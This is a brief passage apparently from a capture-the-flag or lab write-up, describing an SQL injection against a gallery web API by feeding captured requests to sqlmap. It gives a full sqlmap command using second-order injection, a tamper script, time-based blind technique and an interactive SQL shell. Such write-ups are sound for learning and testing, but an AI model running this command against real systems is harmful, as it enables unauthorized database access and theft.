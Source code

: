 ![](screenshots/05-req2.png)

## EXPLOIT 1 - SQL INJECTION

The requests to `/api/v1/gallery/user/genres` and `/api/v1/gallery/user/feed` were captured in BurpSuite and saved as `genres.req` and `feed.req`. These two requests were supplied to `sqlmap` with the following payload.

```sh
sqlmap -r genres.req --second-req feed.req --level=5 --risk=3 --tamper=space2comment --dbms=mysql --technique=T --sql-shell
```
